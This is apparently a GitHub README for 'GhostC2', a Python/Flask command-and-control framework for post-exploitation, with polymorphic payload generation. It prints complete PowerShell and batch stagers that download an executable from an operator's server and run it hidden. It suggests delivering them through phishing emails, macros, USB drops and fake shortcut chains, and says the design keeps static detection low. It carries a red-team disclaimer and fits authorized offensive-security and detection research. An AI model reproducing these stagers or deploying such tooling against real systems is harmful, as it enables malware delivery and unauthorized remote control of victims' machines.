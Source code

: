 # 👻 GhostC2

GhostC2 is a modular, encrypted, post-exploitation command-and-control (C2) framework built with Python and Flask. It features real-time WebSocket communication, polymorphic payload generation, operator authentication, and optional `.exe` packaging. 

Check out the wiki for an Operator Quickstart Guide.

---

## 🚀 Features

- 🔐 AES-256 encrypted communication (symmetric)
- 🌐 Real-time bidirectional WebSocket tasking
- 🧠 Operator web console with live terminal view
- 🧬 Polymorphic payload generator with randomized variables
- 🖥️ Optional `.exe` compilation with PyInstaller
- 🛡️ Flask-Login based access control
- 🧾 SQLite-based task/result logging

---

## 📁 Project Structure

```
GhostC2/
├── builds/                 # Compiled payloads (.py, .exe)
├── output/                 # (Optional legacy output dir)
├── payloads/               # WebSocket and polling Python agents
│   └── ghost_socket_payload.py
├── server/
│   ├── app.py              # Main Flask + SocketIO server
│   └── templates/          # HTML templates for dashboard, console, login
├── tools/
│   └── generate_payload.py # Payload generator script
├── utils/
│   └── crypto.py           # AES encrypt/decrypt helpers
└── README.md
```

---

## ⚙️ Setup

### 1. Install dependencies
```bash
pip install flask flask-login flask-socketio eventlet pyinstaller
```

### 2. Run the server
```bash
cd server
python app.py
```

Visit [http://localhost:8080](http://localhost:8080)

**Default Login:**
```
Username: admin
Password: ghostpass123
```

---

## 👾 Payloads

### ✅ WebSocket Agent
```bash
python payloads/ghost_socket_payload.py
```

### 🧬 Generate Polymorphic Payload
```bash
python tools/generate_payload.py            # .py only
python tools/generate_payload.py --exe      # .py + .exe
```

Output saved to `builds/`

---

## 🖥️ Operator Console

- Live terminal view via `/console`
- Send commands to selected host
- Output streams back instantly via WebSocket

---

### 🎯 Stagers (Initial Access)

GhostC2 includes multiple **delivery stagers** in the `/stagers` directory, designed to fetch and execute the full agent from a remote server.

#### 🪖 PowerShell Stager (`payload_stager.ps1`)

Downloads and executes the payload from your GhostC2 host:

$payloadUrl = "http://your.server.ip/builds/ghost_payload.exe"
$localPath = "$env:TEMP\ghostsvc.exe"
Invoke-WebRequest -Uri $payloadUrl -OutFile $localPath -UseBasicParsing
Start-Process -FilePath $localPath -WindowStyle Hidden

yaml
Copy
Edit

Use in:
- Phishing emails
- Macros
- USB drops
- Post-exploit scripting

---

#### 🧱 Batch Stager (`payload_stager.bat`)

Simple `.bat` version for Windows:

@echo off
set PAYLOAD_URL=http://your.server.ip/builds/ghost_payload.exe
set PAYLOAD_PATH=%TEMP%\ghostsvc.exe

powershell -Command "Invoke-WebRequest -Uri '%PAYLOAD_URL%' -OutFile '%PAYLOAD_PATH%' -UseBasicParsing"
start "" "%PAYLOAD_PATH%"

yaml
Copy
Edit

Use in:
- `.zip` phishing drops
- Fake `.lnk` shortcut chains
- Legacy script execution

---

### 🔐 Reminder

These stagers **do not contain the payload directly**. They fetch the compiled GhostC2 `.exe` agent at runtime — minimizing static detection and enabling modular deployment.



---




## 🔐 Security Notes

- All beacon traffic is AES-256 encrypted
- WebSocket messages are encrypted client/server-side
- Operators must log in via Flask-Login (sessions stored securely)

---

## 🧪 Red Team Use Cases

| Scenario              | Usage                                    |
|----------------------|------------------------------------------|
| Post-exploitation    | Remote shell via encrypted WebSocket     |
| Payload generation   | Obfuscated `.py` or `.exe` files         |
| Operator dashboards  | Web UI for task/result review            |
| C2 simulations       | Train detection or analyze traffic       |

---

## ⚠️ Legal

GhostC2 is provided for **educational and authorized red team use only**. Do not deploy this tool in any environment without proper authorization.

---

## 🧠 Built by Edward Wolfgang

- GitHub: [@wolfwashere](https://github.com/wolfwashere)
- Project: GhostC2 v1.0

Feel free to fork, contribute, or adapt for your research lab, red team, or academic project.

